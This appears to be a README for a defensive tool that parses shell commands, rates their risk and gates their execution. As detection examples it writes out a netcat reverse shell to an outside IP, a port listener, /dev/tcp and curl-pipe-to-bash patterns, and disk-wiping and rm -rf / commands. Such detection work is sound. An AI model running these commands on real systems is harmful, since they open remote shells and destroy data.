

# Linux Command Intent Engine: End-to-End Architectural Pipeline & Workflow

This document explains the technical lifecycle of a shell command within the **Linux Command Intent Engine (LCIE)**—from the moment a user types a command in the interface to AST parsing, vector threat matching, ground-truth manpage definition lookup, heuristic security inspection, SLM/LLM semantic synthesis, and real-time execution streaming.

---

## 1. High-Level Architecture & End-to-End Flow



---

## 2. Phase 1: User Input & Client Interface Tier

### 1. Command Entry & User Experience (`CommandInput.jsx`)
- **Single-Line & Multi-Line Modes**: Supports single one-liner commands (e.g. `ls -la`, `nc -lvnp 4444`) as well as multi-line bash scripts and piped subshells.
- **Preset Catalog**: Provides categorized sample commands covering *Safe Inspection*, *Pipelines*, *Privilege Escalation*, *Data Deletion*, and *Reverse Shell Threats*.
- **History Navigation**: Up/Down arrow keys recall previous commands from local memory and backend telemetry.
- **Keyboard Shortcuts**:
  - `Enter`: Trigger Pre-Flight Check.
  - `Escape`: Cancel inspection or return to input.
  - `Ctrl + C`: Abort currently running subprocess/streaming terminal.
  - `Ctrl + L`: Clear terminal output and reset state.

### 2. Instant AI Reasoning Toggle (`Header.jsx`)
- Direct toggle in the top navigation bar:
  - ⚡ **`AI: Groq LPU (Fast Cloud)`**: Routes semantic reasoning through Groq's low-latency LPU hardware using `llama-3.1-8b-instant` or `llama-3.2-3b-preview` (<500ms response).
  - 💻 **`AI: Ollama (Local SLM)`**: Routes through locally hosted 1B/3B parameter models (`llama3.2:1b`, `phi4-mini:3.8b`) for complete offline privacy.
- Saved in browser `localStorage` and sent with analysis requests.

---

## 3. Phase 2: Backend Request Ingestion & Context Setup

When the user triggers the check, an HTTP `POST /api/analyze` request is dispatched with JSON payload:

```json
{
  "command": "nc -lvnp 4444",
  "cwd": "/home/user/projects",
  "provider": "groq",
  "model": "llama-3.1-8b-instant"
}
```

### Request Pipeline Initialization (`backend/app/routers/analyze.py`)
1. **Schema Validation**: FastAPI validates parameters via Pydantic `AnalyzeRequest`.
2. **Context Creation**: `AnalyzerService` instantiates a mutable `PipelineContext` object that flows sequentially across all tools:
   ```python
   context = PipelineContext(
       command=clean_cmd,
       cwd=cwd,
       requested_provider=provider,
       requested_model=model,
       requested_api_key=api_key
   )
   ```

---

## 4. Phase 3: The 5 Multi-Tool Pipeline Engines

```
Command String: "nc 10.10.14.1 4444 -e /bin/sh"
  │
  ├─► [Tool 1: SafeCmd AST] ────────► Blocked: '-e /bin/sh' violates sandbox allowlist
  │
  ├─► [Tool 2: Explainshell DB] ────► Synopsis: 'arbitrary TCP/UDP connections'
  │                                   Flags: -e (execute program)
  │
  ├─► [Tool 3: CmdCaliper Vectors] ─► 100.0% Match: 'Netcat TCP reverse shell' (MITRE T1059.004)
  │
  ├─► [Tool 4: Heuristics Engine] ──► Risk: CRITICAL | Ports: [4444] | Endpoint: '10.10.14.1'
  │                                   is_reversible: False
  │
  ├─► [Tool 5: Grounded SLM/LLM] ───► Synthesizes all tool findings into plain-English explanation
  │
  └─► [Pipeline Coordinator] ──────► Enforces Invariants ──► Output: IntentAnalysis JSON
```

---

### Tool 1: SafeCmd AST Allowlist Engine (`safecmd_tool.py`)
- **Abstract Syntax Tree Parsing**: Uses `bashlex` (with fallback to `shlex`) to break complex command lines into structured tokens, command nodes, pipelines, and redirection targets.
- **Strict Allowlist Checking**: Validates base binary names against allowlisted safe inspection commands (`ls`, `grep`, `cat`, `tar`, `ping`, `find`, `uname`, etc.).
- **Redirection & Path Sandboxing**: Enforces that write/redirection operators (`>`, `>>`) only write into safe designated sandboxes (`/tmp` or working directories), blocking root (`/etc`, `/bin`, `/usr`) writes.
- **Destructive Flag Veto**: Rejects destructive invocations (e.g. `rm -rf`, `dd of=/dev/sda`, `chmod 777`, `-e /bin/sh`).
- **Output**: `context.safecmd_verdict` (`allowed: bool`, `message: str`).

---

### Tool 2: Explainshell Ground-Truth SQLite Database (`explainshell_tool.py`)
- **Offline SQLite Manpages DB**: Connects to a pre-indexed ground-truth database (`data/explainshell.db` or `web/data/manpages.db`) containing indexed POSIX/Linux manpage synopses and flag specifications.
- **Flag Extraction**: Identifies single-letter combined flags (`-lvnp` -> `-l`, `-v`, `-n`, `-p`) and long options (`--no-preserve-root`, `--acls`, `-czvf`).
- **Nested Command Delegation**: Traverses nested subcommands like `sudo`, `xargs`, `find -exec`, `eval`, `nohup` to parse both the wrapper and the inner command.
- **Output**: `context.manpage_explanation` (`synopsis`, `used_flags: [flag, summary, value]`).

---

### Tool 3: CmdCaliper Semantic Vector Threat Matcher (`cmdcaliper_tool.py` & `vector_db.py`)
- **768-Dimensional Dense Embeddings**: Uses domain-specific vector embeddings encoded via the custom fine-tuned SentenceTransformer model [`Ameya-Kawade/cmdcaliper`](https://huggingface.co/Ameya-Kawade/cmdcaliper) (loaded directly from local weights in `model/model.safetensors` or downloaded from HuggingFace `Ameya-Kawade/cmdcaliper`). Pre-computed index vectors are stored in `data/cmdcaliper_vectors.npz` and `data/cmdcaliper_corpus.json`.
- **Cosine Proximity Search**: Computes dot-product similarity against thousands of real-world benign commands, administrative tasks, and malicious attack patterns.
- **Calibrated Sensitivity & Threat Tagging**:
  - `HARMFUL`: Similarity $\ge 0.68$.
  - `SUSPICIOUS`: Similarity $\ge 0.48$.
  - **MITRE ATT&CK Mapping**: Retains and surfaces tags (`T1059.004` Execution, `T1485` Data Destruction, `T1078` Privilege Escalation) directly in the verdict.
- **Output**: `context.cmdcaliper_verdict` (`verdict: HARMFUL|SUSPICIOUS|BENIGN`, `similarity_score`, `matched_mitre`, `matched_category`).

---

### Tool 4: Rule-Based Heuristics & Impact Analyzer (`heuristic_tool.py`)
- **Inbound Network Listeners**: Detects socket creation (`nc -l`, `nc -lvnp`, `ncat -l`) and extracts open ports into `context.network.ports_opened = [4444]`.
- **Reverse & Bind Shells**: Detects `/dev/tcp/*`, `/dev/udp/*`, `mkfifo | nc`, `-e /bin/sh`, `-e /bin/bash`, and piped script executors (`curl ... | bash`, `wget ... | sh`).
- **Filesystem Deletion & Block Devices**: Identifies disk wipes (`dd if=/dev/zero of=/dev/sda`, `mkfs.ext4`) and recursive root purges (`rm -rf /`), recording deleted assets.
- **Reversibility Computation**: Flags irreversible system mutations (`is_reversible = False`) and generates concrete reversibility explanations.
- **Output**: `context.heuristic_risk`, `context.filesystem`, `context.network`, `context.heuristic_is_reversible`.

---

### Tool 5: Multi-Tool Grounded AI / SLM Reasoner (`llm_tool.py`)
- **Grounded Prompt Assembly**: Unlike raw LLMs that hallucinate, the SLM is fed the exact outputs of Tools 1–4:
  ```text
  Command: nc -lvnp 4444
  Synopsis: nc - arbitrary TCP and UDP connections and listens
  Flags: -l (listen mode), -v (verbose), -n (numeric IP), -p=4444 (port)
  SafeCmd Policy: RESTRICTED (Disallowed command: 'nc -lvnp 4444')
  Threat Intel: Vector proximity (56.5%) to 'Reverse Shell / Remote Access' [MITRE T1059.004]
  Network Impact: Opens inbound listening ports: [4444]
  ```
- **Provider Routing**:
  - **Groq LPU**: Invokes `https://api.groq.com/openai/v1` with JSON mode using `llama-3.1-8b-instant`.
  - **Local Ollama**: Invokes local endpoint (`http://localhost:11434/v1`) using `llama3.2:1b` or `phi4-mini:3.8b`.
- **Structured Output**: Returns concise two-field JSON:
  ```json
  {
    "base_command_summary": "nc - arbitrary TCP and UDP connections and listens",
    "intent": "This command will listen for incoming TCP connections on port 4444 with verbose logging and numeric IP resolution"
  }
  ```
- **Prompt Cache**: SHA-256 keyed cache prevents redundant inference for repeated commands.

---

## 5. Phase 4: Pipeline Coordination & Safety Invariants

The `ProcessingPipeline._synthesize()` method merges all tool findings into the final `IntentAnalysis` object, strictly enforcing non-negotiable safety invariants:

1. **SafeCmd Invariant**: If SafeCmd blocks a command, risk cannot be `SAFE` (minimum `CAUTION`).
2. **Threat Vector Invariant**: If CmdCaliper detects a MITRE attack pattern or $\ge 50\%$ reverse shell proximity, risk is locked at `CRITICAL`.
3. **Network Listener Invariant**: If inbound ports are opened, risk is elevated to `CAUTION` or `CRITICAL`, and reversibility explains that the socket remains open until process termination.
4. **Reversibility Guarantee**: Destructive raw writes (`dd`), file purges (`rm -rf /`), and reverse shells are guaranteed `is_reversible: False`.
5. **Warning Deduplication**: Preserves ordered, deduplicated alerts from all engines.

### Final `IntentAnalysis` JSON Schema:
```json
{
  "command": "nc -lvnp 4444",
  "intent": "nc - arbitrary TCP and UDP connections and listens\n\nThis command will listen for incoming TCP connections on port 4444 with verbose logging and numeric IP resolution",
  "risk_level": "CRITICAL",
  "is_reversible": false,
  "reversibility_explanation": "Opens an inbound listening network socket on port 4444 awaiting external connections.",
  "network": {
    "outbound_endpoints": [],
    "ports_opened": [4444],
    "downloads": []
  },
  "filesystem": {
    "created": [],
    "modified": [],
    "deleted": []
  },
  "warnings": [
    "SafeCmd Policy: Command or subcommand 'nc -lvnp 4444' is blocked by sandbox allowlist.",
    "[CmdCaliper Anomaly] Semantic vector proximity (56.5%) to threat pattern 'nc 10.10.14.1 4444 -e /bin/sh' (Reverse Shell / Remote Access) [MITRE T1059.004]: Netcat TCP reverse shell with direct shell execution.",
    "Opens an unauthenticated inbound listening socket on port 4444 (potential reverse shell catcher or data exfiltration listener)."
  ],
  "safecmd": { "allowed": false, "message": "Disallowed command or destructive option: 'nc -lvnp 4444'" },
  "cmdcaliper": { "verdict": "SUSPICIOUS", "similarity_score": 0.5655, "matched_mitre": "T1059.004" }
}
```

---

## 6. Phase 5: Pre-Flight Visual Confirmation & Decision Gate

The frontend receives `IntentAnalysis` and renders the **Pre-Flight Decision Gate**:

1. **`ImpactCard.jsx`**:
   - **Risk Banner**: Dynamic color coding (`SAFE` in Emerald, `CAUTION` in Amber, `CRITICAL` in Crimson/Rose).
   - **MITRE ATT&CK Badges**: Displays matched threat categories and MITRE tactics.
   - **Reversibility Pill**: Clear reversible/irreversible badge with contextual explanation.
   - **Impact Grids**: Shows modified filesystem paths, open network ports, and active warnings.
   - **Flag & Option Inspector**: Lists ground-truth manpage documentation for all parsed flags.

2. **`ActionControls.jsx`**:
   - **Run on Host**: Executes the command directly in the host OS environment.
   - **Run in Docker Sandbox**: Safely executes in an isolated disposable container monitored by Tracee eBPF.
   - **Edit Command**: Returns to input bar for adjustments.
   - **Cancel / Abort**: Clears assessment.

---

## 7. Phase 6: Real-Time Execution Streaming & Audit Logging

When the user confirms execution:

1. **WebSocket Connection (`/ws/execute`)**:
   - The frontend connects to the WebSocket stream and dispatches the execution request:
     ```json
     { "action": "execute", "command": "ls -la /var/log", "target": "host" }
     ```
2. **Subprocess Streaming (`executor.py` / `sandbox_client.py`)**:
   - Spawns asynchronous child process with non-blocking pipes (`stdout`, `stderr`).
   - Streams raw output chunks over WebSocket (`{"type": "chunk", "data": "..."}`).
3. **Live Terminal UI (`TerminalStream.jsx`)**:
   - Renders output in real time with ANSI color code support and auto-scrolling.
   - Captures final exit code (`0` for success, non-zero for errors).
4. **Persistent History Ledger (`backend/app/routers/history.py`)**:
   - Persists command string, execution timestamp, runtime duration, exit code, target environment (host vs sandbox), and full `IntentAnalysis` JSON into SQLite database (`data/history.db`).
   - Accessible via the slide-out **Command History** drawer with search, risk filtering, and one-click rerun.

---

## 8. Summary of Components

| Component | File Path | Core Responsibility |
| :--- | :--- | :--- |
| **Command Input** | `frontend/src/components/CommandInput.jsx` | User input, multi-line editing, preset selection, keyboard handling |
| **Header & Toggle** | `frontend/src/components/Header.jsx` | Live telemetry, Groq LPU ⟷ Ollama quick toggle, CWD display |
| **Settings Modal** | `frontend/src/components/SettingsModal.jsx` | Runtime configuration for Groq, Ollama, OpenRouter, Gemini, OpenAI |
| **Impact Card** | `frontend/src/components/ImpactCard.jsx` | Visual risk assessment, MITRE tags, flags inspector, warnings |
| **Terminal Stream** | `frontend/src/components/TerminalStream.jsx` | Real-time WebSocket terminal output streaming and abort controls |
| **API Endpoints** | `backend/app/routers/analyze.py`, `system.py` | FastAPI routers for analysis, telemetry, settings, and manpages |
| **SafeCmd Tool** | `backend/app/core/pipeline/safecmd_tool.py` | AST extraction and sandbox allowlist validation |
| **Explainshell Tool**| `backend/app/core/pipeline/explainshell_tool.py` | SQLite manpage flag definition and synopsis lookup |
| **CmdCaliper Tool** | `backend/app/core/pipeline/cmdcaliper_tool.py` | 768-dim semantic vector similarity & MITRE threat matching |
| **Heuristics Tool** | `backend/app/core/pipeline/heuristic_tool.py` | Reverse shell, network listener, and disk wipe pattern detection |
| **SLM / LLM Tool** | `backend/app/core/pipeline/llm_tool.py` | Multi-tool grounded inference via Groq Cloud or local Ollama |
| **Pipeline Coord** | `backend/app/core/pipeline/coordinator.py` | Pipeline execution orchestration, safety invariant enforcement |
| **Execution Engine** | `backend/app/core/executor.py`, `routers/execute.py`| Subprocess management, WebSocket streaming, and history logging |
